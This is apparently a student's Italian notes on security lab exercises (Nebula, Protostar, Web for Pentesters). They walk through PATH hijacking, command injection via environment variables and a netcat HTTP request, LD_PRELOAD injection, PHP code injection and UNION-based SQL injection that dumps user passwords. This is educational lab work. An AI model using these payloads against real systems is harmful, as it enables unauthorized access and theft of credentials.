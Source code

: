 # Esercizi di laboratorio:  


### Nebula 
- lvl 00
- lvl 01:  
    Il comando echo dentro l'eseguibile è eseguito tramite il comando env, che consente di eseguire un comando esterno in un ambiente UNIX.  
    ```bash
    # echo $PATH contiene percorso ricerca UNIX dei binari 
    # si modifica PATH prependendo la directory /tmp
    export PATH=/tmp:$PATH
    echo $PATH # mostra /tmp come prima dir di ricerca

    # Si copia il file /bin/getflag in /tmp/echo 
    cp /bin/getflag /tmp/echo # ora env echo invoca getflag

    cd /home/flag01
    ./flag01 # invoca getflag con i privilegi di getflag!
    ```
- lvl 02:
    Nelle ultime righe del codice sorgente notiamo che viene copiata in un buffer una stringa rappresentante un comando, viene usata la variabile `$USER` come comando, usando export la ridefiniamo con una comand injection: comando_safe + carattere separatore + comando_malizioso + commento. 

    ```bash
    echo $USER # stampa valore corrente ossia: level02
    # si imposta l input malizioso in USER con export 
    export USER="level02; getflag #"
    echo $USER # otteniamo level02; getflag #
    cd /home/flag02
    ./flag02 # esegue getflag con i permessi fi flag02 in quanto il binario ha setuid attivo
    ```
- lvl 03
- lvl 05
- lvl 06
- lvl 07:
    In questa challenge si manomette uno script perl per eseguire getflag con permessi elevati. Nello script perl si prende in input un host ma non si sanifica l'input, si può eseguire una comand injection.  
    comand $\rightarrow$ 8.8.8.8 ; getflag \r\n\r\n (bisogna usare il webserver in ascolto)

    ```bash
    echo -ne "GET /index.cgi?Host=8.8.8.8%3Bgetflag\r\n\r\n" | nc localhost 7007
    ```
    Questo permette di eseguire `getflag` con i permessi di level07.  
    **nota importante**: Bisogna usare l'URL encoding per passare il carattere `;` in quanto tale carattere è speciale e viene consumato dal webserver per separare argomenti della query, si prende quindi il codice ASCII di `;` e lo si  traduce in esadecimeale ossia `3B`, si usa il carattere `%` per attivare l'URL encoding. 
    **nota2:** `\r\n\r\n` indica la fine degli header HTTP, senza il server non capisce che la richiesta è finita e non esegue il comando.    


- lvl 08
- lvl 10 (toctou)
- lvl 13:  
    Iniezione di libreria: si sfrutta la variabile di ambiente `LD_LIBRARY_PATH` o `LD_PRELOAD`.  
    Scopriamo che `LD_PRELOAD` contiene un elenco di librerire condivise e tali librerie sono collegate prima di tutte le altre richieste da un file binario eseguibile (LD_PRELOAD =/path/to/lib.so:/path2/...).  
    Attenzione: questa vulnerabilità funziona solo per file compilati dinamicamente in quanto server l'iniezione di libreria, se è statico allora non si può sfruttare questo exploit.  
    Step: 
    1. generare libreria condivisa che sovrascrive la funzione getuid(), facciamo ritornare sempre 1000 
    2. compilare la libreria con -shared e -fPIC 
    3. copiare l'eseguibile da /home/flag13/flag13 in /home/level13 per rimuovere il setuid
    4. iniettare la libreria: export LD_PRELOAD = ./setuid.so
    5. ottenre credenziali 

    ```c++
    // si scrive un eseguibile in c per sovrascrivere la funzione getuid:
    uid_t getuid(void){
        return 1000;
    }
    ```
    ```bash
    # generiamo libreria condivisa con gcc
    gcc -shared -fPIC -o getuid.so getuid.c 
    export LD_PRELOAD=./getuid.so 
    # copiamo il file eseguibile nella directory attuale per eliminare il setuid da esso
    cp /home/flag13/flag13 /home/level13

    # eseguiamo il file
    ./flag13 # -> otteniamo la password per flag13 (su flag13)
    ```

### Protostar 
- stack 01 
- stack 03
- stack 05:  
    Si consulta il codice sorgente per la challenge e si nota che viene allocato un buffer di 64 caratteri sullo stack e successivamente viene riempito tale buffer con dati letti da terminale, tale input non è controllato (recipe for disaster).  
    La modalità per affrontare l'esercizio è in #riassunto.md nel heading `Buffer Overflow`.  
- stack 06:  


    ```bash

    ```



### Web4PenTesters
- Code Injection 1:
    Si guarda il codice sorgente in `/var/www/codeexec` e si nota che viene usata una stringa $str = 'echo...' e che tale stringa viene interpretata come una espressione php.  
    Si usa lo schema di attacco generico: 
    ``` 
    INPUT = input legittimo +  
            carattere separatore codice +  
            codice php arbitrario  +  
            carattere chiusura.  
    ```

    ```bash
    # useremo la seguente struttura per visualizzare i privilegi:
    name = hacker \" +
        + ; 
        + system("id");
        + \" 

    # andremo a scrivere nell\'url il seguente input:
    ...example1.php/name=hacker";system("id");"
    ```
    Questo ci permetterà di chiamare ID e vedere gli uid e gid 
- XSS 1 
- File include 1 


## SQL Injections:

- SQL Injection 1:  
    Nel codice sorgente della sfida notiamo che viene costruita una stringa rappresentante uno statement SQL, tale input non viene controllato in alcun modo e viene mandato ad un DBMS MySQL per l'esecuzione.  
    Si adotta lo schema classico di iniezione al caso specifico.  
    È possibile usare l'operatore **`OR`** per iniettare un comando e l'espressione in questo modo diventa una _tautologia_

    ```bash
    # tautologia
    .../example1.php/name=root 'or 1=1%23 '#

    # clausola SELECT e ORDER BY (per determinare il numero di colonne)  
    .../exmaple1.php/name=root' UNION SELECT NULL,NULL,NULL,NULL,NULL%23 '#
    # oppure 
    .../exmaple1.php/name=root' ORDER BY 6 %23 '# genera un errore allora capisco che si tratta di 5 colonne, infatti:
    .../exmaple1.php/name=root' ORDER BY 5 %23 # non genera errore ! '#
    ```

    Una volta determinato il numero di colonne riesco a eseguire Query omogenee, a questo punto posso enumerare il db e ottenere il suo nome per avanzare nella SQL injection:

    - `root' UNION SELECT version(), database(), current_user(),4,5 %23`

    A questo punto ottengo il nome del DB ossia **exercises**

    Per estrarre le tabelle interessanti del DB devo iniettare il comando `information_schema.tables` tramite una UNION.  

    - `root' UNION SELECT table_name,2,3,4,5 FROM information_schema.tables where table_schema='exercises'%23`  
    Noto che il db exercises ha una sola tabella di nome `users`  

    Faccio la stessa cosa ma per vedere la struttura della colonne  
    - `root' UNION SELECT column_name,2,3,4,5 from information_schema.columns where table_schema ='exercises and table_name='users' %23`
    Noto che la tabella users ha 5 colonne: id, name, age, groupid, passwd  

    A questo punto posso fare il dump della tabella, basta uno statement SELECT che selezioni le colonne interessanti (id,name,passwd) della tabella di interessa (users)

    - `root' UNION SELECT id,name,passwd,4,5 from users %23`

    ![result sql injection 1](../../images/sql_inj_result1.png)  

    **nota:** Se si è a corto di colonne riflesse si può usare la funzione di sistema `concat()` per concatenare valori di colonne diverse.  

    - `root' UNION SELECT concat(id,':',name,':',passwd),2,3,4,5 from users %23`  
    In questo modo l'ouput interessante ora è compattato in un unica colonna.  
    
- SQL injection 2:  


    ```bash
    ```
